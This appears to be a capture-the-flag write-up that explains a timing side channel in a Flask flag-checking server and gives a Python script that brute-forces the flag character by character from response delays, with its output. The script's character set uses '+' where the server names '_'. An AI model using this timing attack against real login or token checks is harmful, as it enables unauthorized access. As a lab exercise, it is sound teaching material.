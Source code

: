 # silly - 400 points

192.168.40.199 8300

The server code is given to us as such.

```py
from flask import Flask, request, Response
from flask_cors import CORS
from hashlib import md5
import time

app = Flask(__name__)
CORS(app)

def get_flag_length():
    time.sleep(0.05) # Throttling against brute-forcers
    flag = open('../flag.txt','r').read()
    return len(flag)

def get_flag_char(i):
    flag = open('../flag.txt','r').read()
    return flag[i].encode()

def checkflag(userflag):
    for i, c in enumerate(userflag):
        if get_flag_length() <= i:
            return False

        if c.encode() != get_flag_char(i):
            return False

    if get_flag_length() != len(userflag):
        return False

    return True

@app.route("/", methods=['GET'])
def index():
    userflag = request.args.get('flag')
    if not userflag:
        return Response("Missing flag", status=401)

    if checkflag(userflag):
        return Response("YOU DID IT!!!", status=200)
    else:
        return Response("Wrong flag. Characters supported: [a-z_{}]", status=401)

```

# Let's Begin

In order to get the flag, we need to pass the `checkflag` method.

The `index` method also gives us the clue to the characters in the flag.
```py
return Response("Wrong flag. Characters supported: [a-z_{}]", status=401)
```

In the `checkflag` method, it checks for every character if  `get_flag_length() <= i`.

We can see a bruteforce preventive measure in the function.
```py
time.sleep(0.05) # Throttling against brute-forcers
```

However, due to multiple uses of `get_flag_length` in the `checkflag` method, this could cause a delayed response when we entered a wrong character vs the correct character. The correct character will incur a longer delay.

Thus we can perform a time based attack. The character which incurred the longest delay would be the right one.

```py
In [10]: import requests

In [11]: payload = {'flag': 'a'}

In [12]: response = requests.get('http://192.168.40.199:8300', params=payload)

In [13]: response.text
Out[13]: 'Wrong flag. Characters supported: [a-z_{}]'

```

So we know that the flag contains lower case alphabets, curly braces and underscores.

So to do the time based attack, we can

```py
In [28]: import string

In [29]: import requests

In [30]: characters = [ch for ch in string.ascii_lowercase] + ['{', '}', '+']

In [31]: found = []

In [32]: while '}' not in found:
    ...:     longest_time = 0
    ...:     character = '0'
    ...:     for ch in characters:
    ...:         payload = {'flag': ''.join(found) + ch}
    ...:         response = requests.get('http://192.168.40.199:8300', params=payload)
    ...:         seconds = response.elapsed.total_seconds()
    ...:         if seconds > longest_time:
    ...:             longest_time = seconds
    ...:             character = ch
    ...:     found.append(character)
    ...:     print(''.join(found))
    ...:
i
iv
ivy
ivyc
ivyct
ivyctf
ivyctf{
ivyctf{c
ivyctf{ca
ivyctf{can
ivyctf{can}
```

And we got the flag.